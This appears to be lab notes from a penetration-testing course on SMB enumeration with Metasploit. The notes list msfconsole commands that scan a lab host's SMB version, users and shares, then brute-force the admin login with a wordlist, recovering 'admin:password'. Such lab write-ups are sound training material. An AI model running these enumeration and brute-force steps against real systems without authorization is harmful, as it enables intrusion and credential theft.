 ### SMB enumeration

* We can utilize auxiliary modules to enumerate the SMB version, shares, users and perform a brute-force attack in order to identify users and passwords.

```
root@attackdefense> service postgresql start && msfconsole

msf5> workspace -a smb_enum
msf5> setg rhosts 192.64.76.3
msf5> search type:auxiliary name:smb
msf5> use auxiliary/scanner/smb/smb_version
msf5> run
```

<figure><img src="../../.gitbook/assets/76.png" alt=""><figcaption></figcaption></figure>

```
msf5> use auxiliary/scanner/smb/smb_enumusers
msf5> run
```

<figure><img src="../../.gitbook/assets/77.png" alt=""><figcaption></figcaption></figure>

The users are `john` `elie` `aisha` `shawn` `emma` `admin`.

```
msf5> use auxiliary/scanner/smb/smb_enumshares
msf5> set showfiles true
msf5> run
```

<figure><img src="../../.gitbook/assets/78.png" alt=""><figcaption></figcaption></figure>

```
msf5> use auxiliary/scanner/smb/smb_login
msf5> set smbuser admin
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> run
```

The credentials are `admin:password`.
